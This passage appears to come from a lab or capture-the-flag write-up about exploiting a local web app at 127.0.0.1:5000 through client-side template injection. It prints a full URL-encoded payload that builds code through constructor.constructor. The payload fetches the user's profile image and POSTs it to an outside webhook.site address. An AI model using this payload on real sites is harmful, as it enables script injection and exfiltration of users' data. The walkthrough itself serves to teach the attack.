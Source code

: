 And the final malicious URL will be something like this : `http://127.0.0.1:5000/products?search=%7B%7Bconstructor.constructor%28%22let%20webhook%3D%60https%3A%2F%2Fwebhook.site%2F4625d87d-847d-4d68-870d-33c822601651%60%3Bfetch%28%60http%3A%2F%2F127.0.0.1%3A5000%2Fv1%2Fapi%2Fprofile%2Fget%60%29.then%28%28e%3D%3Ee.blob%28%29%29%29.then%28%28e%3D%3E%7Blet%20t%3Dnew%20File%28%5Be%5D%2C%60image.jpg%60%2C%7Btype%3Ae.type%7D%29%2Co%3Dnew%20FormData%3Bo.append%28%60file%60%2Ct%29%2Cfetch%28webhook%2C%7Bmethod%3A%60POST%60%2Cbody%3Ao%7D%29%7D%29%29.catch%28console.error%29%3B%22%29%28%29%7D%7D`

![alt text](./.imgs/image19.png)

Then wait for a few seconds and BOOM!

![alt text](./.imgs/image20.png)
